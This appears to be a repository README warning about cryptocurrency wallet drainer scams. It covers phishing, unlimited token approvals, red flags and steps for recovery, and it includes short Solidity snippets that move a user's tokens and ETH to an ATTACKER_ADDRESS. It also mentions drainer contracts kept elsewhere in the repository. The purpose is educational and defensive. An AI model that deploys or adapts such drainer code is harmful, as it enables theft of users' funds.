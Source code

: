 # ⚠️ SECURITY WARNING: DRAINER SCAM PATTERN ⚠️

**IMPORTANT**: This repository contains code examples of malicious smart contract patterns that are used in cryptocurrency scams. These contracts and integration code are provided **FOR EDUCATIONAL PURPOSES ONLY** to help users identify and avoid scams.

## Understanding Drainer Scams

Drainer scams are a type of attack where users are tricked into interacting with malicious smart contracts that drain their wallets of all valuable assets (tokens, NFTs, and native cryptocurrency).

## How Drainer Scams Work

### 1. Phishing or Fake Websites

Scammers create convincing clones of legitimate cryptocurrency websites, often mimicking popular airdrop claims, NFT minting platforms, or token swaps. The websites look legitimate but contain malicious contract interactions.

### 2. Token Approval Exploitation

When users connect their wallets and try to claim "rewards," the contract:

- Requests unlimited approvals (`type(uint256).max`) for multiple tokens
- Requests `setApprovalForAll` for NFT collections
- Makes these requests appear legitimate through UI manipulation

### 3. Asset Draining

Once approvals are granted, the contract:

- Transfers all approved assets to the scammer's wallet
- May perform the promised action (like minting a token) to avoid suspicion
- Often occurs instantly or shortly after approvals are granted

## Common Indicators of Drainer Scams

1. **Too Good To Be True Offers**: Unusually large airdrops, free NFTs, or other rewards without clear eligibility criteria.

2. **Excessive Approval Requests**: Legitimate applications only request approvals for specific tokens and specific amounts needed.

3. **Multiple Approval Pop-ups**: A sudden series of MetaMask/wallet approval requests is suspicious.

4. **Unlimited Token Allowances**: Be extremely suspicious of any request for "unlimited" or very large approval amounts.

5. **Urgency**: Messages like "limited time offer" or "claim before it's gone" create pressure to act quickly without proper verification.

6. **Unverified Contracts**: Smart contracts that aren't verified on Etherscan or other block explorers.

7. **Unusual URLs**: Subtle misspellings or alternative domains (like .io instead of .com).

## How to Protect Yourself

1. **Always Verify the Website URL**: Check the website address carefully before connecting your wallet.

2. **Check Contract Approvals**:
   - For tokens: Only approve the exact amount needed, not unlimited amounts.
   - For NFTs: Be extremely cautious of `setApprovalForAll` requests.

3. **Use Approval Checking Tools**:
   - [Revoke.cash](https://revoke.cash/)
   - [Etherscan Token Approvals](https://etherscan.io/tokenapprovalchecker)

4. **Use a Hardware Wallet**: Hardware wallets provide an additional layer of security.

5. **Create a Separate Wallet for New Interactions**: Consider using a separate wallet with minimal funds for interacting with new protocols.

6. **Read the Contract Code**: If possible, read the contract code or wait for trusted community verification.

7. **Use Transaction Simulation Tools**: Tools like [Tenderly](https://tenderly.co/) can simulate transactions before execution.

## Technical Red Flags in Smart Contracts

When examining contract code, look for:

1. **Functions that transfer multiple asset types**: Legitimate contracts usually have focused functionality.

2. **Hidden transfer functions**: Functions named innocuously like "claim" or "register" that actually transfer assets.

3. **Try/catch blocks around transfers**: Malicious contracts often use these to silently continue if one token transfer fails.

4. **Hardcoded recipient addresses**: Especially if they're not documented or explained.

5. **Unusual access to user balance information**: Code that scans for user assets across multiple tokens/NFTs.

## Sample Attack Patterns

Here are examples of malicious code patterns to watch for:

### Hidden Token Transfers

```solidity
// Looks innocent but transfers all user tokens
function claimReward() external {
    // Mint some token to the user
    _mint(msg.sender, 1000);

    // Hidden functionality that transfers user's assets
    IERC20 usdc = IERC20(0x7F5c764cBc14f9669B88837ca1490cCa17c31607);
    usdc.transferFrom(msg.sender, ATTACKER_ADDRESS, usdc.balanceOf(msg.sender));
}
```

### Multiple Asset Transfers

```solidity
// Transfers many types of assets in one function
function multiDrain(address user) internal {
    // Transfer ERC20 tokens
    for (uint i = 0; i < tokenList.length; i++) {
        IERC20(tokenList[i]).transferFrom(user, ATTACKER_ADDRESS, IERC20(tokenList[i]).balanceOf(user));
    }

    // Transfer NFTs
    for (uint i = 0; i < nftList.length; i++) {
        // Transfer all NFTs
    }

    // Transfer ETH
    payable(ATTACKER_ADDRESS).transfer(address(user).balance);
}
```

## What To Do If You've Been Scammed

1. **Revoke Remaining Approvals**: Immediately visit [Revoke.cash](https://revoke.cash/) to revoke any remaining approvals.

2. **Move Remaining Assets**: Transfer any assets you still have to a new, secure wallet.

3. **Report the Scam**: Report to relevant blockchain explorers, the exchange where you got your cryptocurrency, and law enforcement.

4. **Document Everything**: Save all transaction hashes, website URLs, and communications.

5. **Alert the Community**: Warn others about the scam to prevent more victims.

## In This Repository

The contracts in this repository demonstrate the patterns used in drainer scams:

- `MintDrainer.sol`: A basic drainer that takes ERC20 tokens
- `MintDrainerOptimized.sol`: A more advanced drainer that takes ERC20, ERC721, and native currency

These contracts are provided to help you understand how scams work, NOT to be used for malicious purposes.

## Resources

- [MetaMask Security Best Practices](https://metamask.io/security/)
- [Etherscan Token Approval Checker](https://etherscan.io/tokenapprovalchecker)
- [Revoke.cash - Approval Management](https://revoke.cash/)
- [Coinbase - How to Avoid Crypto Scams](https://www.coinbase.com/learn/crypto-basics/how-to-avoid-cryptocurrency-scams)

---

Remember: If something seems too good to be true, it probably is. Always verify before connecting your wallet or approving transactions.
